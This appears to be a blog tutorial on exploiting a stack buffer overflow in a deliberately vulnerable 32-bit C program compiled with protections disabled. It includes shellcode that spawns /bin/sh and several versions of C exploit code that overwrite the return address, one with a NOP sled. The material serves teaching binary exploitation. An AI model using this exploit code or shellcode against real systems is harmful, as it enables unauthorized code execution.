

# BOF Overwriting EIP to get a shell

## Introduction

Greetings nerds (yes you are)! How is it going?

Today we’ll be looking at a slightly more sophisticate way of overflowing a buffer. We will put custom shellcode in a buffer, and then we will overflow the buffer to redirect code execution to such shellcode.

Sounds cool, doesn’t it? Let’s get our hands dirty!

## The victim

Here I present you the code that we will be attacking :

```c
//gcc victim.c -o victim -m32 -ggdb -no-pie -fno-pic -fno-stack-protector -z execstack -mpreferred-stack-boundary=2

int main(int argc,char *argv[])
{
   char little_array[128];

   if (argc > 1) 
      strcpy(little_array,argv[1]);
}
```

In order to make this program vulnerable in a “modern machine” (this was probably fixed 15 years ago but knowing how it works is essential) we need to compile with the following command :

`gcc victim.c -o victim -m32 -ggdb -no-pie -fno-pic -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`

Don’t worry too much about the command, it just disables many security protections and gives us extra information for debugging with gdb. Furthermore, it compiles the binary for an IA-32 architecture, which I believe will be easier to exploit for the example’s sake.

## How to overwrite the EIP to gain control

Let’s now look at some theory.

As you already know, the `EIP` register points to the instruction that will be executed next, and by overwriting it we can gain control of what is going to be executed.

How do we overwrite it, though? Well that’s easy!

When a `call` instruction happens, the [return address](https://en.wikipedia.org/wiki/Return_statement) is pushed to the stack.

For those of you who didn’t know, the return address points to the next instruction that needs to be executed after a function call. 

For example, in the snippet :

```nasm
call   8049570 <strcpy@plt>
add    eax, 0x20
push   eax
```

The `call` instruction will make the `EIP` jump to `strcpy`’s code, and meanwhile that code is being executed, the return address will be kept on the stack pointing to `add eax, 0x20`. 

This will allow the computer to pop the return address into `EIP` when the `strcpy` call is over, thus allowing the execution to continue normally.



Since our buffer will grow in the return’s address direction, we can overwrite it by supplying input that is bigger than the buffer’s size.

To better understand how the call stack works I recommend [this video](https://www.youtube.com/watch?v=T03idxny9jE) as well as [Wikipedia’s explanation](https://en.wikipedia.org/wiki/Call_stack).

## Shellcode

I won’t be covering how to desing our own shellcode, so I will give you the piece of code that I am using and you can test it yourselves :

```c
#include <stdio.h>

int main(int argc, char** argv) {
    const char sc[] = "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08"
        "\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8"
        "\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\xc3";

    int (*func)();
    func = (int(*)()) sc;
    (int)(*func)();

    printf("-=[ Shellcode didn't work ]=-\n");
    return 1;
}
```

By compiling and running this program, I obtain a shell :


## Exploitation

Here comes the beefy part!

We know we need to overflow a buffer in the victim’s program, in our case we know the buffer’s size is 128 bytes, but what if we didn’t know? 

We can just easily guess it by providing different values :


I have done this with the `printf` function, but you can use python for example, or any tool that allows you to repeat characters multiple times without a lot of effort.

According to this little test, we overwrite the return address when we input 132 bytes.

We know we are overwriting the return address because we obtain a [segmentation fault.](https://en.wikipedia.org/wiki/Segmentation_fault)

Segmentation faults occur when a concrete memory area is accessed by someone who shouldn’t be accessing it.

What we need to do now, is to find where our shellcode begins, and overwrite the return address with that value.

To find where the shellcode begins, we start from the assumption that every program’s stack begins at the same memory address (which is not true in modern machines, but we have disabled such protection).

To obtain the stack pointer, we can add some inline assembly to our exploit :

```c
unsigned int get_sp() {
	__asm__("movl %esp, %eax);
}
```

Functions in x86-32 (IA-32) architectures return whatever is inside the `EAX` register, hence this function will return the address pointed by the stack pointer.

Once we know this value, we can create an array to host our shellcode, and fill the rest of the buffer with the stack pointer address to try to overflow the victim’s buffer:

```c
#define BUFF_SIZE 180
#include <stdio.h>

unsigned char sc[] = 
        "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08"
        "\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8"
        "\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\xc3"
        ;

unsigned int get_sp() {
    __asm__("movl %esp, %eax");
}

void main(int argc, char** argv) {
    unsigned int sp = get_sp();
    unsigned char buff[BUFF_SIZE] = {0};
    unsigned int *p_buff = (unsigned int*) buff;
    unsigned char *p_cbuff;

		// Fill the whole array with the stack pointer value
    for(int i = 0; i < BUFF_SIZE; i+=4) {
        *(p_buff++) = (unsigned int) sp;
    }

		// Set a new pointer to the beginning of the array
    p_cbuff = (unsigned char *) buff;

		// Put our shellcode in the array
    for(int i = 0; i < (sizeof(sc) - 1); i++) {
        *(p_cbuff++) = sc[i];
    }

		// Print the array to stdout
		// The array has the form : "shellcode, sp_addr, sp_addr, sp_addr ... "
    puts(buff);
}
```

The problem with this exploit is that we need to be very precise when overwriting the `EIP`, and we need to land exactly on top of our shellcode, so the stack pointer address won’t be enough.

We need to offset this address with some value, which needs to be guessed by trying different combinations. Remember that the stack grows downwards, so we need to subtract the offset from the `sp` value.

Let’s modify our exploit so we as users can change the address :

```c
#define BUFF_SIZE 180
#include <stdio.h>

unsigned char sc[] = 
        "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08"
        "\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8"
        "\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\xc3"
        ;

unsigned int get_sp() {
    __asm__("movl %esp, %eax");
}

void main(int argc, char** argv) {
    unsigned int sp = get_sp();
    unsigned char buff[BUFF_SIZE] = {0};
    unsigned int *p_buff = (unsigned int*) buff;
    unsigned char *p_cbuff;

		// Offset the stack pointer address with a user-supplied value
    if (argc > 1)
        sp = (unsigned int) (sp - (unsigned int) atoi(argv[1]));

		// Fill the whole array with the stack pointer value
    for(int i = 0; i < BUFF_SIZE; i+=4) {
        *(p_buff++) = (unsigned int) sp;
    }

		// Set a new pointer to the beginning of the array
    p_cbuff = (unsigned int*) buff;

		// Put our shellcode in the array
    for(int i = 0; i < (sizeof(sc) - 1); i++) {
        *(p_cbuff++) = sc[i];
    }

		// Print the array to stdout
		// The array has the form : "shellcode, addr, addr, addr ... "
    puts(buff);
}
```

Now it looks good to go! Let’s explore it with gdb and try to get our shell.

Start the debugging session with `gdb ./victim` and have a look at the main disassembly with `disas main`.

We can set a breakpoint after strcpy, to see the state of the stack when the buffer has been overflown :


We now run the vicitm’s program and pass it our exploit’s output as input, the breakpoint stops us and we can check the stack :


As you can see, the address we are trying to overflow the `EIP` with is `0xFFFFCE88`, however, our shellcode starts at address `0xFFFFCE08`.

We need to subtract 0x80 (128) from the current address, so let’s try that :


Bingo!

But what if I told you that there is even more we can do to improve our exploit? Right now only the address that we have used will be useful to spawn a shell, but we can instead make a range of addresses work with a technique called [NOP Sled](https://en.wikipedia.org/wiki/NOP_slide).

## NOP Sled

The NOP Sled consist on adding a sequence of NOPs to our shellcode, so that if the `EIP` points to one of the NOPs, it will “slide” through them until it reaches the first (non-NOP) instruction of the shellcode.

The term slide is used here because a NOP instruction literally does nothing, so the processor will read the opcode and increment the `EIP` to execute the next instruction.

This is how our exploit looks like when we add the NOP Sled :

```c
#define NOP '\x90'
#define BUFF_SIZE 180
#include <stdio.h>

unsigned char sc[] = 
        "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08"
        "\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8"
        "\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\xc3"
        ;

unsigned int get_sp() {
    __asm__("movl %esp, %eax");
}

void main(int argc, char** argv) {
    unsigned int sp = get_sp();
    unsigned char buff[BUFF_SIZE] = {0};
    unsigned int *p_buff = (unsigned int*) buff;
    unsigned char *p_cbuff;

		// Offset the stack pointer address with a user-supplied value
    if (argc > 1)
        sp = (unsigned int) (sp - (unsigned int) atoi(argv[1]));

		// Fill the whole array with the stack pointer value
    for(int i = 0; i < BUFF_SIZE; i+=4) {
        *(p_buff++) = (unsigned int) sp;
    }

		// Set a new pointer to the beginning of the array
    p_cbuff = (unsigned int*) buff;

		// Fill half the array with NOPs
    for(int i = 0; i < (sizeof(buff)/2); i++) {
        p_cbuff[i] = NOP;
    }

		// Set a new pointer to (<array length / 2> - <length of shellcode>)
    p_cbuff = (unsigned char *)(buff + (sizeof(buff)/2) - strlen(sc));

		// Put our shellcode in the array
    for(int i = 0; i < (sizeof(sc) - 1); i++) {
        *(p_cbuff++) = sc[i];
    }

		// Print the array to stdout
		// The array has the form : "NOP Sled, shellcode, addr, addr ... "
    puts(buff);
}
```

Isn’t this amazing? Let’s check out its behavior!

Once again I have set a breakpoint after the victim’s buffer has been overflowed.

We can easily identify our array in the stack :


See where the NOPs start? They begin at address `0xFFFFCE08` and end at `0xFFFFCE3A`.

Remember that without providing any offset, the address we will jump to is `0xFFFFCE88`, so any offset between 0x80 (128) and 0x4E (78) should do.

What if for example we try an offset of 110?


And what about 80?


We get a shell both times!

## Conclusion

Well, well, well… You can’t tell me you haven’t loved this post (at least the technical part).

Even though this techniques are not useful nowadays, I find them pretty educational since they can teach you some computer architecture and simple exploit development.

As you have seen, binary exploitation can lead to severe security flaws, and it is important to know how to mitigate them as well as how to exploit them.

Thank you for reading this post, hopefully it has motivated you to try some of these things out by yourself and play around.

Have an awesome day and see you on the next post!

<style>
    img:not(.logo_img) {
        box-shadow: 0px 0px 10px gray;
        border-radius: 5px;
    }
</style>

